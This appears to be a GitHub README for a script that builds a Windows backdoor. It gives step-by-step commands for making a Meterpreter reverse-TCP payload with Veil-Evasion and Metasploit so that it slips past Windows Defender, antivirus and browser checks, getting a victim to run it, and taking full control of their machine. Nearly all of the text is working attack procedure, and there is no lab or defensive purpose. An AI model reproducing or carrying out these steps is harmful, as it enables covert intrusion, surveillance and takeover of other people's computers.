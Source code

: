 # cybersecurity 

This bashscript runs metasploit framework's msfconsole and opens backdoor in windows machine.

### Installation
- Download the script in the repository and move to a directory 
  OR
  ```sh
  git clone https://github.com/meanishn/cybersec.git
  ```
- change to the directory with script file
- Run
  ```sh
    ./hack.sh
  ```
- After a while you should be able to see meterpreter console
  ```sh
    meterpreter>
  ```
- In the current directory you should be able to see the executable named ``` play.exe ```

The executable file play.exe should be sent to the target machine (windows xp/7). 
When this executable is opened in target machine(windows) then in your host machine(kali) you have a meterpreter console running
with full access to the windows machine.

NOTE: If you are downloading, use internet Explorer to download this exe file. Other browsers will detect this as virus and wont allow you to download.

To test the attack, type ``` screenshot ``` in the meterpreter console. You should get the screenshot image from your target machine.

//TODO
Make this play.exe undetectable by antivirus and browser

### Details
Requirements: msfconsole (pre-installed with kali), veil-evasion
- Install git
  ```sh
    sudo apt-get install -y git
  ```
- Installing veil-evasion
  veil evasion is used so just to make sure that the payload that is created is not detected as virus.
  ```sh
  git clone https://github.com/Veil-Framework/Veil.git
  cd Veil/
  cd setup
  sudo ./setup.sh -c
  ```
  This will install all the dependencies Python 2.7, Py2Exe, PyCrypto,

### How to make attack
  After the veil evasion is installed correctly, type ```veil-evasion``` in terminal.
  
  This should open veil-evasion console. Type ```list``` to see available payloads that can be created.
  For this project we are going to create a powershell shellcode payload. 
  
  As of version 2.28.2 of veil-evasion, we are going to use 
  ```powershell/shellcode_inject_virtual/virtual```payload whose id is 28.
 
 - Go ahead and type
  ```bash 
  use 28 
  ```
  NOTE: The id may be different depending on the version of veil evasion
  
  - In the next console screen. Type:
  ```bash
    generate
  ```
 - Now it asks for option if we want to use msfvenom shellcode. We will be using msfvenom so select 1 (default).
 - You should get the prompt asking for metasploit payload. We will be using meterpreter reverse tcp. so type and press enter
  ```bash
    windows/meterpreter/reverse_tcp
  ```
- Next, we have to provide LHOST, give your local ip: ``` 192.168.10.X```
- Next it asks for LPORT, give it any available port: 443
- Finally, it asks for name of output file. Give any name and press enter (lets say 'play')
  After following these steps, two files should have been created:
  ```bash
    Payload File: /var/lib/veil-evasion/output/source/play.bat
    Handler File: /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
  
- Exit from veil evasion ```exit```
- Lets start the msfconsole session by using the handler file generated by veil evasion
  ```bash
    msfconsole -r /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
- Now, we need to transfer the payload file (/var/lib/veil-evasion/output/source/play.bat) to our target machine.
- This file should bypass windows defender and other antivirus and browsers should let you download the file. After downloading execute this batch file.
- In our host machine (kali), we should be able to see the message
  ```bash
    Meterpreter session 1 opened (192.168.....) 
  ```
- Type ```sessions```` to see all session information and make note of id of the session.
- Type ``` sessions -i [ID] ``` to start interacting with target machine
- Finally you should be able to see ```meterpreter>``` console. To test type ```screenshot``` to take screenshot from target machine.
- Enjoy!!!
 
 
  
  
